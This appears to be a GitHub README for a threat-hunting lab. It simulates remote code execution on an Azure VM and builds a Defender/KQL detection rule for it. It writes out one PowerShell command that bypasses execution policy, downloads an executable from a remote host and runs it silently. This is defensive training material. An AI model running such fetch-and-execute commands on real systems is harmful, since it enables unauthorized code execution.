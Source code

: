 # 🎯Threat Hunt: Remote Code Execution Detection (RCE) & Create Detection Rule 📊🛡️

![image (17)](https://github.com/user-attachments/assets/29728b8d-d5e1-4ce0-b939-d7f0d81d49c5)

## Platforms and Languages Leveraged
- Microsoft Sentinel
- Windows 10 Virtual Machines (Microsoft Azure)
- EDR Platform: Microsoft Defender for Endpoint
- Kusto Query Language (KQL)

### Scenario: The Attacker Executes Remote Code on the VM 💻🔓

Imagine an attacker gains access to the VM through a **vulnerability** or a **phishing attack**. Once inside, they execute a **Remote Code Execution (RCE)** command using PowerShell to download and run a malicious payload, in this case, the **7zip installer**.

Here's how the attacker might have carried out the attack:

1. **Initial Access**: The attacker exploited a vulnerability in the system or tricked a user into downloading and running a malicious attachment (e.g., a weaponized PowerShell script disguised as an innocuous file). 🔓

2. **Execution**: After gaining access, the attacker executes the following PowerShell command to download a malicious executable (7zip installer) from a remote server:
   
   ```powershell
   cmd.exe /c powershell.exe -ExecutionPolicy Bypass -NoProfile -Command "Invoke-WebRequest -Uri 'https://sacyberrange00.blob.core.windows.net/vm-applications/7z2408-x64.exe' -OutFile C:\ProgramData\7z2408-x64.exe; Start-Process 'C:\programdata\7z2408-x64.exe' -ArgumentList '/S' -Wait"
   ```

3. **Payload Execution**: The attacker uses `Invoke-WebRequest` to download the payload from a remote server. After the file is downloaded, the attacker silently installs the application by executing it with the `/S` (silent) flag, ensuring there are no user prompts during the installation. This download and installation are performed under the guise of a legitimate action, making detection more difficult. 💻⚠️

4. **Detection**: The **MDE** system (Microsoft Defender for Endpoint) detects the unusual PowerShell activity (particularly the use of `Invoke-WebRequest` and `Start-Process` in sequence), triggering an alert and activating the **custom detection rule** you set up. 🚨

---

## How We Found the RCE Payload 💥

Our team created a custom detection rule that specifically searched for the execution of PowerShell commands using Invoke-WebRequest and Start-Process—two common commands that attackers use to download and run payloads remotely. The rule was set to trigger if the system saw these commands within a specific time frame. ⏱️
